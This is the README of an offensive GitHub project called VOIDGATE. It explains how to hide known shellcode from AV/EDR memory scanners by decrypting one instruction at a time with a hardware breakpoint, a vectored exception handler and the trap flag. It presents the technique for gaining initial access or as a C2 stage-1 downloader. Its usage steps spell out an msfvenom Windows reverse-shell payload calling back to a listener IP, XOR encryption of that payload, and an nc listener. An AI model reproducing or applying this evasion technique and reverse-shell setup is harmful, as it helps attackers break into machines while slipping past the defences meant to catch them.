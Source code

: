 

# VOIDGATE
### Description:
A technique that can be used to `bypass AV/EDR memory scanners`. This can be used to hide well-known and detected shellcodes (such as msfvenom) by performing `on-the-fly decryption of individual encrypted assembly instructions`, thus rendering memory scanners useless for that specific memory page.
_______________

### How it works:
This technique will create a `PAGE_EXECUTE_READWRITE` memory region where the encrypted assembly instructions will be stored. The shellcode will be wrapped around some padding. The program will set a `Hardware Breakpoint` (HWBP) on the entrypoint of the shellcode.

Next, the program will install a `Vectored Exception Handler` (VEH). This VEH will basically act like a `debugger`, single stepping through the code, reading the instruction pointer register (RIP) for each `SINGLE STEP` exception received by the VEH, and decrypting the next 16 bytes (maximum x64 assembly instruction length) where RIP points . The VEH also encrypts back the previously decrypted instruction, ensuring that the rest of the shellcode stays always encrypted with the exception of the single assembly instruction currently executed. After that, it will continue execution, with the `TRAP FLAG` configured on the Eflags register. This will ensure that the next assembly instruction will also trigger a breakpoint exception that the VEH can handle.

 After the VEH installation, the `main thread` execution will be redirected to the `payload entrypoint`. When the HWBP will be triggered at the entrypoint, the VEH will stop at each assembly instruction executed, perform the decryption of the next assembly instruction and encrypt the previous encrypted instruction which is saved as a global variable.

By doing this, basically `one single assembly instruciton is decrypted at a time`, with the rest of the `payload staying encrypted`.
____

### Limitations:
`NOTE:` This technique is ideal to obtain an initial access using a basic shellcode such as msfvenom or custom revers shells. This can also be used as an initial stage 1 payload that downloads the rest of the payload from the C2 server.

`NOTE:` This technique is not compatible with all payloads (such as reflective loaders) . Below is a list of current limitations:

* 1.) Since the `VEH` will trigger for `EACH ASSEMBLY INSTRUCTION` executed in the shellcode, the execution speed of the shellcode will be drastically slowed down. For each assembly instruction the CPU executes, the VEH will execute at least an additional 300 ASM instructions to perform the decryption, encryption and restore execution to the main thread. If the given shellcode is optimized for smaller size over performance (such as msfvenom), payload execution will be slower. It can take over 15 seconds (depending on the CPU) to execute an MSFVENOM. This happens since the specific shellcode used by msfvenom is sacrificing performance to obtain smaller payload size.
* 2.) If the shellcode calls `NtCreateThread` or any of its wrappers in Kernelbase.dll with the `entrypoint inside the shellcode`, the payload will `not work` since the VEH will not trigger for that thread execution since there is `no HWBP installed at the entrypoint of the newly created thread`. (Work in progress - will be implemented further in this repo)
* 3.) If the shellcode has some `values/variables stored inside itself` (for example, having the raw string "powershell.exe" that is referenced via an offset in a call to WinExec WINAPI) or some number `saved at an offset`, and the shellcode will later try to load or reference it somewhere, the program will not work since the specific variable or string `will be encrypted` and the VEH does not decrypt it. If the shellcode pushes such arguments on the stack via assembly instructions (`push 0x4141414141414141` to push "AAAAAAAA" on the stack to be used in a call to a function), this technique will work. (Work in progress - will be implemented further in this repo)
_____
### Usage:
 
How to reproduce the POC:

* 1.) Create your msfvenom payload:
```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.33 LPORT=443 -f raw > shell.asm
```
* 2.) Use the XorEncryptPayload.exe to XOR encrypt the payload
```
./XorEncryptPayload.exe C:\Path\to\shell.asm
```
* 3.) Update the variable which contains the shellcode inside the main.cpp of Voidgate project
* 4.) Ensure the xor key matches the encryptor and Voidgate project
* 5.) Ensure your listener is waiting on the attack machine:
```
nc -nvlp 443
```
* 6.) Execute Voidgate.exe
____
### Demo:

![](https://github.com/vxCrypt0r/voidgate/blob/master/poc.gif)

________

### Disclaimer
This repository is for academic purposes, the use of this software is your responsibility.
